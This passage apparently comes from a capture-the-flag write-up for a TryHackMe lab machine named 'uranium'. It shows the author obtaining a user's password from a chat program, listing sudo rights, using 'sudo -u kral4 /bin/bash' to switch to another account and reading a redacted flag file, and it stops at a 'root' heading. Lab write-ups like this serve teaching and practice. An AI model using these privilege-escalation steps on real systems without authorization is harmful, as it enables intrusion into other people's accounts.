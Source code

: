 ```bash
kral4:what now? did you forgot your password again

->yes
yes
hakanbey:yes
kral4:okay your password is [REDACTED] don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated
hakanbey@uranium:~$
```

We have user `hakanbey's` password, let's check sudo rights.

```bash
hakanbey@uranium:~$ sudo -l
sudo -l
[sudo] password for hakanbey: [REDACTED]

Matching Defaults entries for hakanbey on uranium:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
hakanbey@uranium:~$
```

So user `hakanbey` is allowed to run `/bin/bash` sudo, but the `bin/bash` belongs to user `kral4` which means we can escalate our privilege to user `kral4`

```bash

hakanbey@uranium:~$ sudo -u kral4 /bin/bash
sudo -u kral4 /bin/bash
kral4@uranium:~$ id
id
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
kral4@uranium:~$
```

The second find can be found under the directory `/home/kral4`

```bash
kral4@uranium:/home/kral4$ pwd
pwd
/home/kral4
kral4@uranium:/home/kral4$ ls
ls
chat_with_hakanbey  user_2.txt
kral4@uranium:/home/kral4$ cat user_2.txt
cat user_2.txt
thm{REDACTED}
kral4@uranium:/home/kral4$
```
### root
